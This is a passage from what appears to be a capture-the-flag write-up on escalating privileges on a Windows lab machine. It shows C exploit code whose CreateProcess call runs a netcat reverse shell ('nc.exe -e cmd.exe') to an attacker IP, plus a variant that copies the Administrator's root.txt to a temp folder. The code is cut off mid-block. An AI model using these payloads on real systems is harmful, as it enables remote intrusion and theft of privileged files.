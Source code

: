 ```
}
```

Of course, just running the exploit doesn't give anything, because it's just spawning a cmd process that we have no control over. I ended up trying two different ways of trying to get a reverse shell, both of which didn't fully succeed.

I first tried the payload with a netcat binary, which calls back to us serving cmd. What's problematic here is that that session actually dies the moment it's spawned. However, it is still possible to read `root.txt` using this method.

Netcat method.
```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\Temp\\nc.exe -e cmd.exe 10.10.14.2 4445",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
                TRUE,                                                           // Set handle inheritance to TRUE
                0,                                                              // No creation flags
                NULL,                                                           // Use parent's environment block
                NULL,                                                           // Use parent's starting directory
                &startupInformation[0],                                         // Pointer to STARTUPINFO structure
                &processInformation[0]                                          // Pointer to PROCESS_INFORMATION structure
        );
}

```

Just reading `root.txt`.
```
BOOL WINAPI CreateNewCmdProcess (STARTUPINFO *startupInformation, PROCESS_INFORMATION *processInformation)
{
        ZeroMemory (&startupInformation[0], sizeof (STARTUPINFO));
        startupInformation->cb = sizeof (STARTUPINFO);
        ZeroMemory (&processInformation[0], sizeof (PROCESS_INFORMATION));

        // Start the child process.
        return CreateProcess (
                NULL,                                                           // No module name (use command line)
                "c:\\windows\\system32\\cmd.exe /c type c:\\users\\administrator\\Desktop\\root.txt > c:\\windows\\temp\\root.txt",   // Start cmd.exe
                NULL,                                                           // Process handle not inheritable
                NULL,                                                           // Thread handle not inheritable
```